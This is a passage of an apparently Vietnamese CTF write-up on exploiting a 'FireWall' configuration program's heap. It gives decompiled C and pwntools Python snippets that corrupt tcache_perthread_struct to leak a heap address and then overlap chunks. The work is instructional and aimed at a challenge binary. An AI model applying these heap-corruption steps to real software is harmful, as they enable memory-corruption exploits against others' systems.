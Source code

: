 ```c 
```

FireWall 1 ở địa chỉ `0x20824d0`, ta thấy ở libc này, key của tcachebin[0] = địa chỉ của `tcache_perthread_struct`

Khi ta cố truy cập FireWall 1 lúc này, khi đó FireWall.setting = địa chỉ của `tcache_perthread_struct` từ đó ta có thể ghi đè luôn `tcache_perthread_struct`

Hàm `print_config` gọi hàm `printf` để in ra:

```c
int __fastcall print_config(FireWall **list, int idx)
{
  putchar(10);
  printf("ID: %d\n", (unsigned int)list[idx]->id);
  printf("Setting: %s\n", list[idx]->setting);
  printf("Is active: %d\n", list[idx]->active);
  return putchar(10);
}
```

Thật khó để leak heap vì hàm `add_config` cũng sử dụng hàm `fgets` để nhận, luôn có null bytes ở sau T_T.

Sau một hồi suy nghĩ thì mình suy ra được một cách là 
fill up `tcache_perthread_struct.counts` với byte `7` ( để nó không thêm chunk nào mới vào và vì ở version libc này kiểu của `counts` vẫn là `char` ), nhưng mình cũng sẽ để  `counts[0]=0`, khi mình add FireWall 1 rồi free nó 1 lần nữa thì :

* `counts[0]=1` và `tcache_entry *entries[0] = FireWall 1`
* Lúc này `FireWall1.setting = tcache_perthread_struct`, khi gọi hàm `print_config` ra, do counts đã được fill up với các byte khác NULL nên `entries[0]` cũng sẽ được in ra luôn -> từ đó ta leak được heap. 

```python
add(1,0x250-8,b"B"*8)
p.sendline(b"4")
view(1)
p.recvuntil(b"Setting: " )
p.recv(0x40)
heap = u32(p.recv(4))
chunk0 = heap - 0x4e0
log.success(f"heap leak: {hex(heap)}")
```
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/80f72a84-e025-4d23-a1d5-bbd7f329c608)

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/767855cf-742e-4a5a-82f6-73acfe2bcebe)

Có được heap rồi, mình muốn malloc FireWall 1 sao cho setiing của nó sẽ trùng với FireWall 0

```python 
hold = heap - 0x240
add(1,0x250-8,p64(0)*2+p64(chunk0))
p.sendline(b"4")
edit(1,0,0x250-8,p8(2)+p8(7)*34+p8(8)+p8(7)*(64-36)+p64(hold))
```
Đơn giả là chỉ cần ghi đè `counts[0]=2` và `entries[0]` là chunk có chứa địa chỉ của FireWall 0.
